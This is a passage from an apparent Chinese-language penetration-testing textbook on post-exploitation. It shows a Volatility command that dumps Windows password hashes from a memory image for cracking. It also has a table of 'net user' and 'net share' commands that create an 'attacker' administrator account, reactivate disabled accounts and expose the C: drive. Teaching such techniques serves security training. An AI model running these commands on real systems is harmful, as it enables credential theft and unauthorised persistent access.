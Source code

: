 上一条命令的执行如下截图所示：

![查找和获取敏感数据-掠夺目标](img/3121OS_05_05.jpg)

为了转储哈希，需要 SAM 和 SYSTEM 蜂巢的初始虚拟内存位置。使用以下命令，结果被导入到逗号分隔的文件中，以便由密码破解应用程序直接导入：

```
root@kali:usr/share/volatility#python vol.py hashdump -f 
  /root/Desktop/zeus.vmem -y 0xe101b008 -s 0xe1544008 
  >>/root/Desktop/hashdump.csv 

```

上一条命令的执行如下截图所示：

![查找和获取敏感数据-掠夺目标](img/3121OS_05_06.jpg)

孤立的 LM 哈希可以使用 Hashcat、John the Ripper、Ophcrack 和 Rainbow Tables 进行破解。

# 创建额外的帐户

以下命令是高度侵入性的，通常会在事件响应过程中被系统所有者检测到。然而，它们经常被攻击者植入，以转移对更持久的访问机制的注意力。请参阅以下表格：

| 命令 | 描述 |
| --- | --- |
| `net user attacker password /add` | 创建一个名为`attacker`的新本地帐户，密码为`password`。 |
| `net localgroup administrators attacker /add` | 将新用户`attacker`添加到本地管理员组。在某些情况下，命令将是`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将非活动或禁用的帐户更改为活动状态。在小型组织中，这将引起注意。密码管理不善的大型企业可能有 30%的密码被标记为“非活动”，因此这可能是一种获得帐户的有效方式。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或其他指定的驱动器）共享为 Windows 共享，并授予用户（攻击者）对该驱动器上所有内容的完全访问或修改权限。 |
